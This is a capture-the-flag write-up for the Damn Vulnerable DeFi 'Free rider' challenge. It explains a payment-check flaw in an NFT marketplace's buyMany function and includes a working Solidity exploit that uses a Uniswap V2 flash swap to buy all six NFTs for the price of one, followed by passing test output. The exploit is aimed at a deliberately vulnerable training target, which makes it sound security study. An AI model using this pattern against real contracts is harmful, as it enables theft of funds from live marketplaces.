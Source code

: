 # Damn Vulnerable DeFi (Foundry version)

- [Scope](#scope)
- [Plan](#plan)
- [Solution](#solution)
  - [Proof of Concept](#proof-of-concept)

## Challenge #10 - Free rider - Description

A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.

You want to build some rep with this buyer, so you've agreed with the plan.

Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant.

## Scope

| File Name                                                                         | SHA-1 Hash                               |
| --------------------------------------------------------------------------------- | ---------------------------------------- |
| damn-vulnerable-defi-foundry/src/Contracts/free-rider/FreeRiderBuyer.sol          | c3257221b1c239323e6c2c1d2379744e8f6a08d7 |
| damn-vulnerable-defi-foundry/src/Contracts/free-rider/FreeRiderNFTMarketplace.sol | c9b520fac068a5aa7702fd49596c4905e1564bbc |
| damn-vulnerable-defi-foundry/src/Contracts/free-rider/Interfaces.sol              | a0fd58cda9b1368763a82fb7eeb2688dc22f588b |

## Plan

The place that we can get "free" ETH is through `Interfaces.sol` and most specific from [`Uniswap V2's Flash Swap`](https://docs.uniswap.org/contracts/v2/guides/smart-contract-integration/using-flash-swaps). This solves the first problem.

Description gives us a hint that `FreeRiderNFTMarketplace` has a bug. It has four functions that the two of them have to do with buy nft(s). The bug is in [`_buyOne`](https://github.com/cRat1st0s/damn-vulnerable-defi-foundry/blob/b1b61dfe28cbdd8a7f4d3b3e1b73cf2963afc750/src/Contracts/free-rider/FreeRiderNFTMarketplace.sol#L67) when it is called from `buyMany`. It is not checked if the `msg.value` is equal to the sum of the NFTs that we want to buy but it is enough to provide an amount of 15 ETH that is the price for one NFT.

## Solution

1.  Trigger the flash swap.
2.  Buy the NFTs.
3.  Send the NFTs to the buyer.
4.  Pay the fee for the swap.
5.  Repay the flash swap.

<details>
    <summary>Description</summary>

</details>

<details>
    <summary>damn-vulnerable-defi-foundry/test/Levels/free-rider/FreeRider.t.sol</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import "forge-std/Test.sol";

import {FreeRiderBuyer} from "../../../src/Contracts/free-rider/FreeRiderBuyer.sol";
import {FreeRiderNFTMarketplace} from "../../../src/Contracts/free-rider/FreeRiderNFTMarketplace.sol";
import {IUniswapV2Router02, IUniswapV2Factory, IUniswapV2Pair} from "../../../src/Contracts/free-rider/Interfaces.sol";
import {DamnValuableNFT} from "../../../src/Contracts/DamnValuableNFT.sol";
import {DamnValuableToken} from "../../../src/Contracts/DamnValuableToken.sol";
import {WETH9} from "../../../src/Contracts/WETH9.sol";
import {IERC721Receiver} from "openzeppelin-contracts/token/ERC721/IERC721Receiver.sol";

contract FreeRider is Test {
    // The NFT marketplace will have 6 tokens, at 15 ETH each
    uint256 internal constant NFT_PRICE = 15 ether;
    uint8 internal constant AMOUNT_OF_NFTS = 6;
    uint256 internal constant MARKETPLACE_INITIAL_ETH_BALANCE = 90 ether;

    // The buyer will offer 45 ETH as payout for the job
    uint256 internal constant BUYER_PAYOUT = 45 ether;

    // Initial reserves for the Uniswap v2 pool
    uint256 internal constant UNISWAP_INITIAL_TOKEN_RESERVE = 15_000e18;
    uint256 internal constant UNISWAP_INITIAL_WETH_RESERVE = 9000 ether;
    uint256 internal constant DEADLINE = 10_000_000;

    FreeRiderBuyer internal freeRiderBuyer;
    FreeRiderNFTMarketplace internal freeRiderNFTMarketplace;
    DamnValuableToken internal dvt;
    DamnValuableNFT internal damnValuableNFT;
    IUniswapV2Pair internal uniswapV2Pair;
    IUniswapV2Factory internal uniswapV2Factory;
    IUniswapV2Router02 internal uniswapV2Router;
    WETH9 internal weth;
    address payable internal buyer;
    address payable internal attacker;
    address payable internal deployer;

    function setUp() public {
        /**
         * SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE
         */
        buyer = payable(address(uint160(uint256(keccak256(abi.encodePacked("buyer"))))));
        vm.label(buyer, "buyer");
        vm.deal(buyer, BUYER_PAYOUT);

        deployer = payable(address(uint160(uint256(keccak256(abi.encodePacked("deployer"))))));
        vm.label(deployer, "deployer");
        vm.deal(deployer, UNISWAP_INITIAL_WETH_RESERVE + MARKETPLACE_INITIAL_ETH_BALANCE);

        // Attacker starts with little ETH balance
        attacker = payable(address(uint160(uint256(keccak256(abi.encodePacked("attacker"))))));
        vm.label(attacker, "Attacker");
        vm.deal(attacker, 0.5 ether);

        // Deploy WETH contract
        weth = new WETH9();
        vm.label(address(weth), "WETH");

        // Deploy token to be traded against WETH in Uniswap v2
        vm.startPrank(deployer);
        dvt = new DamnValuableToken();
        vm.label(address(dvt), "DVT");

        // Deploy Uniswap Factory and Router
        uniswapV2Factory =
            IUniswapV2Factory(deployCode("./src/build-uniswap/v2/UniswapV2Factory.json", abi.encode(address(0))));

        uniswapV2Router = IUniswapV2Router02(
            deployCode(
                "./src/build-uniswap/v2/UniswapV2Router02.json", abi.encode(address(uniswapV2Factory), address(weth))
            )
        );

        // Approve tokens, and then create Uniswap v2 pair against WETH and add liquidity
        // Note that the function takes care of deploying the pair automatically
        dvt.approve(address(uniswapV2Router), UNISWAP_INITIAL_TOKEN_RESERVE);
        uniswapV2Router.addLiquidityETH{value: UNISWAP_INITIAL_WETH_RESERVE}(
            address(dvt), // token to be traded against WETH
            UNISWAP_INITIAL_TOKEN_RESERVE, // amountTokenDesired
            0, // amountTokenMin
            0, // amountETHMin
            deployer, // to
            DEADLINE // deadline
        );

        // Get a reference to the created Uniswap pair
        uniswapV2Pair = IUniswapV2Pair(uniswapV2Factory.getPair(address(dvt), address(weth)));

        assertEq(uniswapV2Pair.token0(), address(dvt));
        assertEq(uniswapV2Pair.token1(), address(weth));
        assertGt(uniswapV2Pair.balanceOf(deployer), 0);

        freeRiderNFTMarketplace = new FreeRiderNFTMarketplace{
            value: MARKETPLACE_INITIAL_ETH_BALANCE
        }(AMOUNT_OF_NFTS);

        damnValuableNFT = DamnValuableNFT(freeRiderNFTMarketplace.token());

        for (uint8 id = 0; id < AMOUNT_OF_NFTS; id++) {
            assertEq(damnValuableNFT.ownerOf(id), deployer);
        }

        damnValuableNFT.setApprovalForAll(address(freeRiderNFTMarketplace), true);

        uint256[] memory NFTsForSell = new uint256[](6);
        uint256[] memory NFTsPrices = new uint256[](6);
        for (uint8 i = 0; i < AMOUNT_OF_NFTS;) {
            NFTsForSell[i] = i;
            NFTsPrices[i] = NFT_PRICE;
            unchecked {
                ++i;
            }
        }

        freeRiderNFTMarketplace.offerMany(NFTsForSell, NFTsPrices);

        assertEq(freeRiderNFTMarketplace.amountOfOffers(), AMOUNT_OF_NFTS);
        vm.stopPrank();

        vm.startPrank(buyer);

        freeRiderBuyer = new FreeRiderBuyer{value: BUYER_PAYOUT}(
            attacker,
            address(damnValuableNFT)
        );

        vm.stopPrank();

        console.log(unicode"🧨 Let's see if you can break it... 🧨");
    }

    function testExploit() public {
        /**
         * EXPLOIT START *
         */
        vm.startPrank(attacker, attacker);

        weth.deposit{value: 0.5 ether}();
        weth.approve(address(this), 0.5 ether);
        weth.approve(attacker, 1 ether);

        bytes memory data = abi.encode(uniswapV2Pair, damnValuableNFT, attacker);
        uniswapV2Pair.swap(0, NFT_PRICE, address(this), data);

        uint256 fee = (NFT_PRICE * 3) / 997 + 1;
        weth.withdraw(0.5 ether - fee);

        vm.stopPrank();
        /**
         * EXPLOIT END *
         */
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }

    function validation() internal {
        /**
         * SUCCESS CONDITIONS
         */

        // Attacker must have earned all ETH from the payout
        assertGt(attacker.balance, BUYER_PAYOUT);
        assertEq(address(freeRiderBuyer).balance, 0);

        // The buyer extracts all NFTs from its associated contract
        vm.startPrank(buyer);
        for (uint256 tokenId = 0; tokenId < AMOUNT_OF_NFTS; tokenId++) {
            damnValuableNFT.transferFrom(address(freeRiderBuyer), buyer, tokenId);
            assertEq(damnValuableNFT.ownerOf(tokenId), buyer);
        }
        vm.stopPrank();

        // Exchange must have lost NFTs and ETH
        assertEq(freeRiderNFTMarketplace.amountOfOffers(), 0);
        assertLt(address(freeRiderNFTMarketplace).balance, MARKETPLACE_INITIAL_ETH_BALANCE);
    }

    function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) public {
        (IUniswapV2Pair pair, DamnValuableNFT nft, address caller) =
            abi.decode(data, (IUniswapV2Pair, DamnValuableNFT, address));

        uint256 fee = (amount1 * 3) / 997 + 1;
        uint256 amountToRepay = amount1 + fee;

        uint256[] memory tokenIds = new uint256[](AMOUNT_OF_NFTS);
        for (uint256 tokenId = 0; tokenId < AMOUNT_OF_NFTS; tokenId++) {
            tokenIds[tokenId] = tokenId;
        }
        freeRiderNFTMarketplace.buyMany{value: NFT_PRICE}(tokenIds);

        for (uint256 tokenId = 0; tokenId < AMOUNT_OF_NFTS; tokenId++) {
            tokenIds[tokenId] = tokenId;
            nft.safeTransferFrom(address(this), address(freeRiderBuyer), tokenId);
        }

        weth.transferFrom(caller, address(this), fee);
        weth.transfer(address(pair), amountToRepay);
    }

    function onERC721Received(address, address, uint256 _tokenId, bytes memory) external returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }

    receive() external payable {}
}
```

</details>

### Proof of Concept

```
./run.sh 10
[⠢] Compiling...
[⠔] Compiling 1 files with 0.8.17
[⠒] Solc 0.8.17 finished in 1.17s
Compiler run successful (with warnings)

Running 1 test for test/Levels/free-rider/FreeRider.t.sol:FreeRider
[PASS] testExploit() (gas: 521756)
Logs:
  🧨 Let's see if you can break it... 🧨

🎉 Congratulations, you can go to the next level! 🎉

Test result: ok. 1 passed; 0 failed; finished in 5.03ms
```
